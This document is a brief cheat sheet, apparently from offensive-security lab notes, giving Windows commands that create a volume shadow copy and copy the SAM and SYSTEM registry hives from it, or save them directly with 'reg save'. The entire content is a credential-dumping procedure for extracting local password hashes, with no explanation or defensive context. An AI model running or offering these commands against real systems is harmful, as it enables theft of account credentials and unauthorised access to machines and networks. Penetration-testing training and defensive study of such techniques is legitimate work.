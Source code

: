 # Create shadowcopy
```
wmic shadowcopy call create Volume='C:\'
vssadmin list shadows
```
# Copy files
```
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\windows\system32\config\sam
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\windows\system32\config\system
```
## Or
```
reg save HKLM\sam C:\users\offsec.corp1\Downloads\sam
reg save HKLM\system C:\users\offsec.corp1\Downloads\system
```

